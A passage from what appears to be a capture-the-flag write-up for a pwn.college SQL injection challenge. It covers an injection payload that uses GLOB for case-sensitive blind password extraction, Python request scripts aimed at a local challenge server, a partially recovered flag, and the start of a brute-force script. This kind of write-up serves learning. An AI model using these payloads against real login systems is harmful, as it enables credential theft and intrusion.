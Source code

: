 > result : This time it matches with the password.
```plain
<Response [200]> 
 Hello, flag!
```

* There is problem with `LIKE` i.e `case insensitive`. We can use the `GLOB` instead of `LIKE` that work similar and solve the case insensitive problem.
  
> GLOB instead of LIKE clause.
```sql
-- Original query
SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"

-- Using the LIKE not work with case insensitive, So instead of LIKE we use GLOB clause which will work.
SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"
                                                ^^^^^^^
                                                " OR password GLOB "p*" -- -
--  In GLOB we use (*) astrict.
```

* After few minutes, we guess some characters : `pwn.college{QIYl7ae`

```py
import requests
import string

s = requests.Session()

url = "http://challenge.localhost:80"

searchspace = string.ascii_letters + string.digits + '{}_.-'

data = {
    'username': 'flag " OR password GLOB "pwn.college{QIYl7ae*" -- -',
    'password': 'pass'
    }
response = s.post(url, data=data )
print(response, "\n", response.text)
```
> Result 
```plain
<Response [200]> 
 Hello, flag
```

* This process where we manually extracting bit by bit data is long and time-taken, instead of that we can automate this process by scripting.
* We can make python script that will match the password.
* This script will find the flag.

```py
# this module help us to interact with http request.
import requests
# this module will help us to bruteforce.
import string

# establishing session
s = requests.Session()

# Target url :
url = "http://challenge.localhost:80"

# Possible character for bruteforce
searchspace = string.ascii_letters + string.digits + '{}_.-'

# match case to break loop.
```